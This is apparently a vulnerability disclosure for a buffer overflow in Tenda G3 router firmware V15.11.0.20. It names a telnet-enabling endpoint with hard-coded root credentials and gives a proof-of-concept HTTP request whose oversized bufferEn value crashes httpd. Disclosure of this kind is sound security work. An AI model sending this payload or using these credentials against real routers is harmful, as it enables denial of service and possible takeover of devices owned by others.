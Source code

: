 # Tenda G3 Buffer overflow vulnerability

## Overview

- Manufacturer's website information：<https://www.tenda.com.cn/>
- Firmware download address ：<https://www.tenda.com.cn/product/download/G3.html>

## Vulnerability information

There is a Buffer overflow vulnerability in tenda G3 V15.11.0.20, which can cause httpd to crash, or even execute arbitary code.

## Affected version

![](pic/1.png "")

Figure shows the latest firmware of V3：V15.11.0.20.

## Vulnerability details

open telnet  <http://192.168.0.1/goform/telnet>
telnet admin/password is root/Fireitup

using ida to analysis httpd, in function formSetDnsCacheCapacity:

![](pic/code1.png "")

The program passes the contents obtained by the bufferEn parameter to dns_enable.
Then, dns_enable is set to dns.enable stored in the system by function SetValue.  
And dns.enable is passed to old_enable by function GetValue, Old_enable is an array of finite length.
There is no size check, so there is a vulnerability that can cause buffer overflow through bufferEn parameter.

## Vulnerability exploitation condition

Need to get cookie after logging in to execute the attack.

The functional data packets are as follows, and we will use this to construct poc.  

```http
GET /goform/setDnsData?bufferMemory=1000&bufferEn=falseAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA HTTP/1.1
Host: 192.168.0.252
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.66 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: _:USERNAME:_=; G3v3_user=
Connection: close
```

## Recurring vulnerabilities and POC

In order to reproduce the vulnerability, the following steps can be followed:

1. Connect physical devices
2. Attack with the POC

The poc and reproduction results are as follows:

![](pic/effect1.png "")

![](pic/effect2.png "")

Figure shows POC attack effect, the pid of httpd changed.

And then every visit to this page will cause httpd to crash, as shown in the following figure.
![](pic/effect3.png "")

## CVE-ID

unsigned
